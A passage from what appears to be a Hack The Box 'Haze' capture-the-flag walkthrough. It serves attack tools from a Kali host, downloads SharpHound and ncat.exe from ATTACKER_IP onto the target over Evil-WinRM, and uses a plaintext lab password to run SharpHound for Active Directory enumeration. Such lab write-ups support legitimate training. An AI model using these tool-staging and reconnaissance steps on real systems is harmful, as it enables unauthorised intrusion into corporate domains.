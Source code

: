 `ncat.exe`, which is installed as part of the `ncat-w32` package on Kali was also copied to the `www` directory
```
fcoomans@kali:~/htb/haze$ locate ncat.exe
/usr/share/windows-resources/ncat/ncat.exe

fcoomans@kali:~/htb/haze$ dpkg -S /usr/share/windows-resources/ncat/ncat.exe
ncat-w32: /usr/share/windows-resources/ncat/ncat.exe

fcoomans@kali:~/htb/haze$ cp /usr/share/windows-resources/ncat/ncat.exe www
```

A Python web server was started to serve the files.
```
fcoomans@kali:~/htb/haze$ python -m http.server -d www
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

The tools were then downloaded from the attack host to the target.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> iwr http://ATTACKER_IP:8000/SharpHound.exe -outfile SharpHound.exe
*Evil-WinRM* PS C:\Users\mark.adams\Documents> iwr http://ATTACKER_IP:8000/ncat.exe -outfile ncat.exe
```

Programs that need to interact with Active Directory cannot simply be run in `evil-winrm`.  This is due to the double-hop problem which prevents the Kerberos TGT from being added to the `evil-winrm` session.
So, in order to run `SharpHound.exe` and other commands that need to communicate with AD, a `PSCredential` is created and used with `Invoke-Command` to get a TGT and to interact with Active Directory.
`SharpHound.exe` was run inside the `Invoke-Command` `ScriptBlock`.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> klist

Current LogonId is 0:0x70df000

Cached Tickets: (0)
*Evil-WinRM* PS C:\Users\mark.adams\Documents> $pass = ConvertTo-SecureString 'Ld@p_Auth_Sp1unk@2k24' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\mark.adams\Documents> $cred = New-Object System.Management.Automation.PSCredential('HAZE\mark.adams', $pass)
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Invoke-Command -ComputerName DC01 -Credential $cred -ScriptBlock { .\SharpHound.exe -c All }
2025-06-28T09:01:04.4410336-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-06-28T09:01:04.6441551-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-06-28T09:01:04.6910295-07:00|INFORMATION|Initializing SharpHound at 9:01 AM on 6/28/2025
2025-06-28T09:01:04.7222802-07:00|INFORMATION|Resolved current domain to haze.htb
2025-06-28T09:01:04.8941603-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-06-28T09:01:05.0035297-07:00|INFORMATION|Beginning LDAP search for haze.htb
2025-06-28T09:01:05.1441585-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for HAZE.HTB
2025-06-28T09:01:05.1441585-07:00|INFORMATION|Beginning LDAP search for haze.htb Configuration NC
2025-06-28T09:01:05.1754066-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for HAZE.HTB
2025-06-28T09:01:05.2379053-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-06-28T09:01:05.2379053-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-06-28T09:01:05.5035330-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for HAZE.HTB
2025-06-28T09:01:18.8941582-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
```